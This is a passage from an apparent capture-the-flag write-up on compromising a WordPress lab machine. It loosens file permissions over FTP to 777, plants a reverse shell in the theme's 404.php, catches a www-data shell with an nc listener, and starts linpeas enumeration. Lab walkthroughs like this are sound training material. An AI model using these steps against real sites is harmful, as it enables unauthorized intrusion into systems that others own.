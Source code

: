 ![WordPress admin page on the subdomain](https://i.imgur.com/mru5pq8.png)

We are in!

## 2. Foothold
I know of two ways we can get a shell:
1. Appearance -> Theme Editor -> edit 404.php
2. Plugins -> Add new -> Upload zip of phprevshell.


However, we see:
1. ![404.php edit page permissions error](https://i.imgur.com/rTWJrLa.png)

2. ![add new plugin page permissions error](https://i.imgur.com/r38C0xu.png)

a permission error for both. If only there was a way we could edit the file permissions ...

### 2.1. FTP (again)
```
ftp> pwd
257 "/wp-content/themes/twentynineteen" is the current directory
ftp> chmod 777 404.php
200 SITE CHMOD command ok.
```

Upload a reverse shell using the route 1 mentioned above. Shell taken from [Reverse Shell Generator](https://www.revshells.com/).

```
┌──(kali㉿kali)-[/tmp]
└─$ nc -lnvp 443           
listening on [any] 443 ...
connect to [10.17.8.184] from (UNKNOWN) [10.10.190.211] 43448
Linux ubuntu 4.15.0-130-generic #134-Ubuntu SMP Tue Jan 5 20:46:26 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 04:31:28 up 23 min,  0 users,  load average: 0.01, 0.02, 0.09
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
sh: 0: can't access tty; job control turned off
$ whoami
www-data
$ pwd
/
$ 
```

We are in the system!


## 3. PrivEsc
Now, let's get **linpeas** to find priv esc vectors.
![Getting linpeas to find priv esc vectors](https://i.imgur.com/yQfXRti.png)

Here's the stuff it marked:
```
[+] Unmounted file-system?
[i] Check if you can mount umounted devices                                             
/dev/disk/by-id/dm-uuid-LVM-2vWU08UHAxgr0umysQPoxtHSdFdx70llz4fwL1Q9vtLr2IL1fPcyJc851c7izh0w    /       ext4    defaults        0 0                                             
/dev/disk/by-uuid/069d6843-2a0d-4a97-b8cd-948aa75be772  /boot   ext4    defaults       0 0
```
^Nothing interesting

